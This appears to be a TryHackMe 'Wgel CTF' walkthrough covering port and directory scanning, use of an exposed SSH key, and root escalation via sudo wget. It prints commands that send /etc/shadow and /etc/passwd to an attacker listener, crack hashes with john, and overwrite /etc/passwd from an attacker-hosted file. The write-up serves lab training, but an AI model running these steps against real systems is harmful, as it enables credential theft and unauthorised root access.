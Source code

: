 # Wgel CTF

**Room Link:** [https://tryhackme.com/room/wgelctf](https://tryhackme.com/room/wgelctf)





## Scanning

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (77).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

### TCP/80 - HTTP

On the main page of the site it was just a apache default page but in the source we can see someone named jessie making a comment.

<figure><img src="../../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

Ran gobuster and found a site under sitemap, nothing really interesting about it when browsing.

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt 
```

<figure><img src="../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>

gobuster wasn't really able to find anything interesting.

**Kali**

```
gobuster dir -u http://$VICTIM/sitemap/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt 
```

<figure><img src="../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

Ran dirb with defaults and it found a .ssh folder which has a id\_rsa so I downloaded and used it.

**Kali**

```
dirb http://$VICTIM/sitemap/
```

<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (70).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
chmod 600 id_rsa
ssh -v -i id_rsa  jessie@$VICTIM
```

<figure><img src="../../.gitbook/assets/image (100).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (81).png" alt=""><figcaption></figcaption></figure>

I tried cracking jessies hash as I would then be able to run any command with sudo but I couldn't crack it, documenting it anyways.

**Victim**

```
sudo -u root /usr/bin/wget --post-file=/etc/shadow $KALI:4444
sudo -u root /usr/bin/wget --post-file=/etc/passwd $KALI:4444
```

**Victim**

```
nc -lvnp 4444
```

**Victim**

```
unshadow passwd.txt shadow.txt > unshadowed.txt
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```



Instead I  changed the passwd file, I first downloaded to kali and changed the line for jessie so their password is now '123'. Then I uploaded it back and just became root.

**Victim**&#x20;

```
sudo -u root /usr/bin/wget --post-file=/etc/passwd 10.10.65.21:4444
```

**Kali**&#x20;

```
nc -lvnp 4444
```

**Line to change**

```
jessie:$1$new$p7ptkEKU1HnaHpRtzNizS1:1000:1000:jessie,,,:/home/jessie:/bin/bash

```

<figure><img src="../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
python2 -m SimpleHTTPServer 81
```

**Victim**

```
sudo wget http://$KALI:8/passwd -O /etc/passwd
sudo -i
```

<figure><img src="../../.gitbook/assets/image (124).png" alt=""><figcaption></figcaption></figure>

